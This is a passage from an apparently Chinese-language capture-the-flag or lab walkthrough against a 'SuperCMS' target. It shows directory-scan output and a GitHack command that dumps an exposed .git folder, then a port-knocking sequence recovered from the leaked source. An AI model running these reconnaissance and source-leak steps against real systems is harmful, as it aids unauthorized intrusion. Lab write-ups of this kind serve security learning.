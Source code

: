 ```text
[01:45:40] 301 -  345B  - /SuperCMS/.git/logs/refs/remotes/origin  ->  http://10.160.78.89/SuperCMS/.git/logs/refs/remotes/origin/
[01:45:40] 301 -  330B  - /SuperCMS/.git/refs/tags  ->  http://10.160.78.89/SuperCMS/.git/refs/tags/
[01:45:40] 301 -  333B  - /SuperCMS/.git/refs/remotes  ->  http://10.160.78.89/SuperCMS/.git/refs/remotes/
[01:45:40] 200 -  176B  - /SuperCMS/.git/logs/HEAD
[01:45:40] 403 -  277B  - /SuperCMS/.htaccess.bak1
[01:45:40] 403 -  277B  - /SuperCMS/.ht_wsr.txt
[01:45:40] 403 -  277B  - /SuperCMS/.htaccess.orig
[01:45:40] 403 -  277B  - /SuperCMS/.htaccess.save
[01:45:40] 403 -  277B  - /SuperCMS/.htaccess_extra
[01:45:40] 403 -  277B  - /SuperCMS/.htaccess_orig
[01:45:40] 403 -  277B  - /SuperCMS/.htaccess.sample
[01:45:40] 403 -  277B  - /SuperCMS/.htaccessOLD2
[01:45:40] 403 -  277B  - /SuperCMS/.htm
[01:45:40] 403 -  277B  - /SuperCMS/.htpasswd_test
[01:45:40] 403 -  277B  - /SuperCMS/.htpasswds
[01:45:40] 403 -  277B  - /SuperCMS/.html
[01:45:40] 403 -  277B  - /SuperCMS/.htaccessOLD
[01:45:40] 403 -  277B  - /SuperCMS/.httr-oauth
[01:45:40] 403 -  277B  - /SuperCMS/.htaccessBAK
[01:45:40] 403 -  277B  - /SuperCMS/.htaccess_sc
[01:45:41] 403 -  277B  - /SuperCMS/.php
[01:46:00] 301 -  319B  - /SuperCMS/css  ->  http://10.160.78.89/SuperCMS/css/
[01:46:06] 301 -  319B  - /SuperCMS/img  ->  http://10.160.78.89/SuperCMS/img/
[01:46:08] 200 -  464B  - /SuperCMS/js/
[01:46:09] 200 -  779B  - /SuperCMS/login.html
[01:46:20] 200 -   37B  - /SuperCMS/README.md

Task Completed
```

我擦居然没有扫出来`git泄露`！

### git泄露

```bash
python2 GitHack.py http://10.160.78.89/SuperCMS/.git/
```

再恢复一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609578.png" alt="image-20240322141156065" style="zoom:50%;" />

找到`knock`的端口号了！

使用`knock`敲一下三个端口：

```bash
knock 10.160.78.89 1100 800 666 -v
# hitting tcp 10.160.78.89:1100
# hitting tcp 10.160.78.89:800
# hitting tcp 10.160.78.89:666
```
